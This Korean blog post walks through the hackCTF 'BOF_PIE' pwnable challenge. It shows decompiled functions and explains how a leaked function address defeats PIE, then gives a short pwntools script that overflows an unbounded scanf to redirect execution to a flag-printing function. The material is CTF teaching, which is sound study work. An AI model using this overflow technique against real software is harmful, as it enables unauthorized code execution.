 ```yaml
---
layout: post
title:  "[hackCTF]BOF_PIE"
date:   2020-02-18
---
```


hackCTF pwnable 9번째 문제

![favicon](https://drive.google.com/uc?id=1EPkDaLZatWWYaPyJ3wVlOrAu-eubvG9c)

## ida - main
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  welcome();
  puts("Nah...");
  return 0;
}
```

## ida - welcome
```c
int welcome()
{
  char v1; // [esp+6h] [ebp-12h]

  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
  puts("Hello, Do you know j0n9hyun?");
  printf("j0n9hyun is %p\n", welcome);
  return _isoc99_scanf("%s", &v1);
}
```

## ida - j0n9hyun
```c
void j0n9hyun()
{
  char s; // [esp+4h] [ebp-34h]
  FILE * stream; // [esp+2Ch] [ebp-Ch]

  puts("ha-wi");
  stream = fopen("flag", "r");
  if ( stream )
  {
    fgets(&s, 40, stream);
    fclose(stream);
    puts(&s); // flag 출력
  }
  else
  {
    perror("flag");
  }
}
```
welcome함수 scanf에서 ret까지 덮으면 될 것 같다.<br><br>
![0901](https://drive.google.com/uc?id=1ZwKH2ER8FIFKTDodoJn65xziNKzyQNkg)  
PIE가 걸려 있고 파일을 실행시키면 welcome 함수의 주소를 제공하므로 j0n9hyun 함수의 정확한 주소를 구할 수 있다.  
j0n9hyun 함수의 주소 = welcome 함수의 주소 + (j0n9hyun offset - welcome offset)
<br>

정리해보자.<br><br>
목표 : welcome 함수의 ret을 덮어 j0n9hyun 함수 실행시키기<br>
취약점 : _isoc99_scanf("%s", &v1)<br><br><br>


## exploit.py
```python
#!/usr/bin/python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3008)

p.recvuntil("j0n9hyun is ")

welcome = int(p.recv(10), 16)

offset = 0x890-0x909

payload = "A"*0x16+p32(welcome+offset)

p.sendline(payload)

p.interactive()
```

## 결과
![0902](https://drive.google.com/uc?id=1P157mVwwxZkmBAeBM12fMtY27HRuqBN6)

